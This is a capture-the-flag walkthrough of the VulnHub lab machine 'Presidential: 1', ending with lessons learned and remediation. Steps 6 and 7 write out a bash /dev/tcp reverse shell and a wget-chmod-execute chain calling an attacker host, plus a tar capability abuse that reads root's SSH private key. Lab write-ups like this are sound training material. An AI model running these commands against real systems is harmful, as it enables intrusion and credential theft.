





# Presidential: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.10.172 |
| **Difficulty** | Hard |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/) |

## Attack Summary

Presidential: 1 is a Hard Linux machine. The attack path involves discovering database credentials in a backup config file, using those credentials to access phpMyAdmin, exploiting a phpMyAdmin LFI vulnerability to achieve RCE and obtain a reverse shell, and escalating to root by abusing the `tar` binary's `cap_dac_read_search+ep` Linux capability to read root's SSH private key.

## Methodology

1. Host discovery with netdiscover
2. Full port scan with nmap
3. Web enumeration — domain name via email on the site
4. Virtual host enumeration with gobuster to find phpMyAdmin subdomain
5. Gobuster finds `config.php.bak` with database credentials
6. phpMyAdmin login — admin password hash cracked with John the Ripper
7. phpMyAdmin LFI exploit (RCE via session cookie injection)
8. Reverse shell as `apache`/low-privilege user
9. Linux capabilities abuse — `tar +ep` reads root's `id_rsa`
10. SSH login as root

## Step 1: Reconnaissance

### Host Discovery

```bash
netdiscover -i eth0
```

Target at **192.168.10.172**.

### Port Scan

```bash
nmap -A -p- 192.168.10.172
```



## Step 2: Web Enumeration

Browse to the web service. Navigate the site and find an email address — it reveals the **domain name** (e.g., `votenow.local`).

Add it to `/etc/hosts`:

```bash
echo "192.168.10.172 votenow.local" >> /etc/hosts
```

### Gobuster — File Extensions

```bash
gobuster dir \
    -u http://votenow.local/ \
    -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
    -x php,html,txt,bak \
    -t 40
```



Found: `config.php.bak` — a forgotten backup file containing database credentials.

```bash
curl http://votenow.local/config.php.bak
```

Credentials extracted (e.g., `admin : <password or hash>`).

## Step 3: Virtual Host Enumeration

```bash
gobuster vhost \
    -u http://votenow.local/ \
    -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

A subdomain is found (e.g., `datasafe.votenow.local`). Add it to `/etc/hosts`:

```bash
echo "192.168.10.172 datasafe.votenow.local" >> /etc/hosts
```

## Step 4: phpMyAdmin Access and Hash Cracking

Browse to `http://datasafe.votenow.local/phpmyadmin/`. Log in using the credentials from `config.php.bak`.

The `admin` user's password hash is found in the database. Save it and crack with John the Ripper:

```bash
echo 'admin:<hash>' > /tmp/admin.hash
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/admin.hash
```

Cracked password for `admin` obtained.

## Step 5: phpMyAdmin LFI / RCE

The phpMyAdmin version is vulnerable to LFI via session cookie injection. Reference: similar to Exploit-DB techniques exploiting phpMyAdmin's `%2F` path traversal.

1. Authenticate to phpMyAdmin with `admin : <cracked password>`.
2. Inject a PHP payload into the session file, then include it via LFI.
3. Verify code execution with `phpinfo()` as a proof of concept.



## Step 6: Reverse Shell

Create a shell script on the attacker machine:

```bash
cat > /tmp/m3n0shell.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/LHOST/4444 0>&1
EOF
```

Serve it with Python:

```bash
python3 -m http.server 8080
```

Start a listener:

```bash
nc -lvp 4444
```

Through the phpMyAdmin LFI RCE, execute a three-command chain to download, chmod, and run the shell:

```bash
wget http://LHOST:8080/m3n0shell.sh -O /tmp/m3n0shell.sh; chmod +x /tmp/m3n0shell.sh; /tmp/m3n0shell.sh
```

Reverse shell received. Stabilize:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Authenticate as the `admin` user (password reuse):

```bash
su admin
cat ~/user.txt
cat ~/notes.txt
```

## Step 7: Privilege Escalation — Linux Capabilities on tar

Enumerate capabilities:

```bash
getcap -r / 2>/dev/null
```



The `tar` binary has `cap_dac_read_search+ep` — it can read any file on the filesystem regardless of permissions.

Use this to compress root's SSH private key, then decompress and read it:

```bash
# Compress root's id_rsa (capability bypasses permission check)
tar -cvf /tmp/id_rsa.tar /root/.ssh/id_rsa

# Decompress in a writable directory
cd /tmp && tar -xvf id_rsa.tar

# Read the private key
cat /tmp/root/.ssh/id_rsa
```

Save the key locally:

```bash
# On attacker machine:
vim /tmp/root_id_rsa  # paste the key content
chmod 600 /tmp/root_id_rsa
```

## Step 8: SSH Login as Root

```bash
ssh -i /tmp/root_id_rsa root@192.168.10.172
```

## Step 9: Root Flag

```bash
cat /root/root.txt
```



## Lessons Learned

- Backup files (`*.bak`, `*.php~`) left in the web root expose sensitive credentials.
- phpMyAdmin should never be internet-facing and must be kept up to date.
- Password reuse between database credentials and system accounts is a critical risk.
- Linux capabilities (`cap_dac_read_search` on `tar`) are as dangerous as SUID — they bypass DAC entirely.

## Remediation

| Vulnerability | Fix |
|---|---|
| `config.php.bak` in web root | Add `*.bak` to web server deny rules; never deploy backup files to production |
| phpMyAdmin on public subdomain | Restrict to localhost; require VPN or IP allowlist |
| Weak/reused admin password | Enforce unique strong passwords; use a password manager |
| `cap_dac_read_search` on `tar` | Remove capability: `setcap -r /usr/bin/tar`; audit all capabilities regularly |
